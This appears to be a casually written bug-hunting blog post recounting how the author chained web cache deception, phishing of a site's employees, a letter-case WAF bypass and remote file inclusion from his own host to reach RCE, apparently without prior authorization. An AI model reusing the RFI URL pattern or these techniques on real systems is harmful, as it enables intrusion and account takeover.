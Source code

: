 ```yaml
---
layout: post
published: true
title: web cache to rce
tags:
  - bug hunting
comments: true
---
```


hello folks ! here is my article of how i was able to exploit web cache deception to obtain rce :3 i was doing resarch on web cache deception and i decide to penetst it on real web
then i found a website which was vulnerable to web cache deception attack ..before starting attack let's clear doubt about web cache deception

**concept of web cache deception**

website uses cdn's for storing local cached copy of webpage like pdf,css.etc. so that when user revisits to that website the website will work faster and also for reducing loads
suppose two user bob and alice have two accounts on a website which is vulnerable to web cache deception alice is a hacker and bob is a victim..allice(attacker) 
send a link to victim bob like this : 
https://www.example.com/user/account/l.css
now what happened if bob opens this link his cache copy will stored to server and alice can easily takeover account of bob by retriving cache from server thats the simple mechanism of
web cache deception now lets move towards attack :)

**attack scenario**

i founded a web which was vulnerable to web cache deception but nothing was in that web application i founded a subdomain of same web application where only employee can access their
account that subdomain was made for employees i can't login to that subdomain.. i captured the login request of that subdomain i saw there was no header of pragma cache to avoid web 
cache deception attack ...i quicly extracted email of workers of that web applict ation thanx to <a href="https://www.phonebook..cz">phonebook</a> and after recon of 4 hours i was able 
to determine blueprint of employee panel in my mind when an employee login to that account he got redirectited to index.php i made a url something like this: https://www.example.com/
index.php/app0ly.css ans sends to that gmail and tricked them to open the link after few hours i open my linked and i saw that some one open the links ^__^ so i takeover someone account
but there was the problem i can only see the content of index.php when i go to setiings or any other option web application throws awy me from session *_*..

**escilating to rce** 

after spending few hours with capturing and sending request i saw there was a hidden java file in source code of index.php thanx to: <a href="https://www.waybackmachine.com">wayback</a>
after reaading the java file i got few parameters but most intresting waas parameter "?url=" and file?=...whic was something like "https://www.expample.php?url=" i tried to do ssrf but failed seems like htttp and https:// protocol was 
banned by WAF i tried various combinations like htTps:// , HTTPs:// etc. luckily, HttPs:// workred in my case and i got open redirection then i tried to test for remote file inculsion 
i created a payload for retriving "/etc/passwd" file i hosted that paylaod on my website and tried to fetch that mine v=webiste to vulnerable website like this:

www.example.com/index.php?file=HTtps://www.mywebsite.com/exploit.php

and voila! i was able to reterive /etc/passwd file and also able to obtain rce :( and pawned that web application i sent a report to them they patched the bug ^__^ 
that was about how i escilate the web cache to rce ! 

any privte programs :
send it to : <a href="mailto:nhibtaungamain@gmail.com">mohit</a>

tags: exploit
